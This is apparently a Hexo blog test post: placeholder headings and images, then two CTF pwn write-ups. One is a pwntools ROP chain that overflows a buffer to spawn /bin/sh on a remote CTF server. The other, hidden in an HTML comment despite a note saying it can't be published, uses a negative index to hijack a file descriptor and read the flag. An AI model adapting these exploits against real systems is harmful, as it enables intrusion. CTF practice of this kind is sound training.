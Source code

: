 ```yaml
---
title: test
date: 2025-07-24 19:19:42
tags: test
categories:
    - 教學
keywords:
    - hexo
    - blog
    - 部落格
    - github
description: "這是一則關於文章的簡要說明"
---
```


# test1

## test2

### test3

-   img
    <!-- ![image1](./test/frostbean_thinking.jpg)
    ![image2](test/frostbean_thinking.jpg) -->
    ![image3](frostbean_thinking.jpg)
    <!-- ![image2](frostbean_thinking.jpg) -->

### gadgethunter writeup

```python
from pwn import *

# con = process("./gadgethunter")
con = remote("ctf.adl.tw", 10004)

buf_addr = 0x4c6170
# buf = b'/bin/bash\x00'
pop_rdi = 0x0000000000401ebf # : pop rdi ; ret
pop_rsi = 0x0000000000409eee # : pop rsi ; ret
pop_rax_rdx_rbx = 0x0000000000485c0a #: pop rax ; pop rdx ; pop rbx ; ret
bin_bash = 0x7fffffffdb60 #0x7ffeded74890
pop_rsp = 0x000000000040231e #: pop rsp ; ret
syscall = 0x0000000000401c74 # : syscall
add_al_11_mov_rax8_rdx = 0x00000000004520a1 #: adc al, 0x11 ; mov qword ptr [rax + 8], rdx ; ret
payload = b'a'*40 + p64(pop_rax_rdx_rbx) + p64(0x4c6157) +b'/bin/sh\x00' + \
p64(0x0) + p64(add_al_11_mov_rax8_rdx) + p64(pop_rax_rdx_rbx) + p64(0x3b) + \
p64(0x0) + p64(0x0) + p64(pop_rsi) + p64(0x0) + p64(pop_rdi) + p64(buf_addr) + \
p64(syscall)

con.recvuntil(b'message:\n')
raw_input()
con.sendline(payload)
# sleep(0.1)
# con.sendline(buf)

con.interactive()
con.close()
```
### open_book_exam writeup
```python
# Oh noooo~, I can't publish this, you will never find it!
```
<!-- :::info
it's info
:::

:::danger
it's danger
::: -->

<!-- 
from pwn import *

# c = process("./open_book_exam")
c = remote("ctf.adl.tw", 10006)
book_fd  = 0x104010
question = 0x104050
cur_book = 0x104060

# idx = (book_fd-question)//4 + 1

# open book
c.recvuntil(b'> ')
c.sendline(b'1')
# open flag
c.recvuntil(b'> ')
c.sendline(b'5')

# open book
c.recvuntil(b'> ')
c.sendline(b'1')
# open chinese
c.recvuntil(b'> ')
c.sendline(b'1')

fd = 3
# write book
c.recvuntil(b'> ')
c.sendline(b'3')
# write fd
c.recvuntil(b'> ')
c.sendline(b'-15')
c.recvuntil(b'ans: ')
c.sendline(str(fd).encode())
fd+=1
# read book
c.recvuntil(b'> ')
c.sendline(b'2')

print(c.recvlines(3)[2])

# c.interactive()
c.close()
 -->